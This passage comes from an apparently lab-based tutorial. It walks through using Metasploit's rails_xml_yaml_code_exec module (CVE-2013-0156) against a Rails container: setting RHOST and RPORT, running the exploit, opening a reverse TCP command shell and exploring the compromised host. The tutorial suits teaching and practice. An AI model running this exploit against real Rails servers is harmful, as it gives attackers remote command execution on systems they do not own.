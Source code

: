 We only care about the `RHOST` and `RPORT` options, so let's set them.

```bash
msf exploit(rails_xml_yaml_code_exec) > set RHOST rails
RHOST => rails

msf exploit(rails_xml_yaml_code_exec) > set RPORT 8080
RPORT => 8080
```

Now `run` the exploit.

```bash
msf exploit(rails_xml_yaml_code_exec) > run

[*] Started reverse TCP handler on 172.18.0.3:4444
[*] Sending Railsv2 request to rails:8080...
[*] Sending Railsv3 request to rails:8080...
[*] Command shell session 1 opened (172.18.0.3:4444 -> 172.18.0.2:54832) at 2017-03-10 20:57:28 +0000
```

At first glance, nothing happened. But if you start typing like you are in a shell, you will get a response from the compromised Rails container.

```bash
hostname
rails

whoami
ruby
```

As you can see, we are definitely running commands on the Rails container. The exploit module is remotely passing commands to DRb, which is using Ruby system calls to run them on the host. You can verify further by checking the IP address of the compromised host.

```bash
ifconfig eth0

eth0      Link encap:Ethernet  HWaddr 02:42:AC:12:00:02
inet addr:172.18.0.2  Bcast:0.0.0.0  Mask:255.255.0.0
inet6 addr: fe80::42:acff:fe12:2/64 Scope:Link
UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
RX packets:12044 errors:0 dropped:0 overruns:0 frame:0
TX packets:2205 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:667072 (651.4 KiB)  TX bytes:140575 (137.2 KiB)
```

This is not quite as great as a full, interactive shell; but it is pretty good! We can easily explore the filesystem...

```bash
pwd
/opt/ruby

ls /
bin
dev
etc
home
...
```


[CVE-2013-0156]: http://www.cvedetails.com/google-search-results.php?q=2013-0156